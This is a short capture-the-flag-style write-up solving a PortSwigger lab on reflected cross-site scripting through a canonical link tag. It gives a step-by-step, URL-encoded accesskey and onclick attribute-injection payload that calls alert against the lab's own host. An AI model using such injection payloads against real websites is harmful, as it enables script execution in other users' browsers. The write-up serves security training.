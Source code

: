 # Reflected XSS in canonical link tag

## This lab reflects user input in a canonical link tag and escapes angle brackets.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

## To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

## Please note that the intended solution to this lab is only possible in Chrome.

### HINT:

```javascript
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

step1
click on home page and open source code

`<link rel="canonical" href='https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/'/>`

![screenshot](./images/lab20_canonical_link.png)

stpe 2

add accesskey="X"
`https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/?%20accesskey=%22X%22`
%20 for space

### step3

URL Encoding Reference ' = %27
'accesskey='x'onclick='alert(1)'
%27accesskey=%27x%27onclick=%27alert(1)

![screenshot](./images/lab20_accesskey_alert.png)

### step4

remove view-source: from url
and press alt + x
![screenshot](./images/lab20_alt_plus_x_key.png)

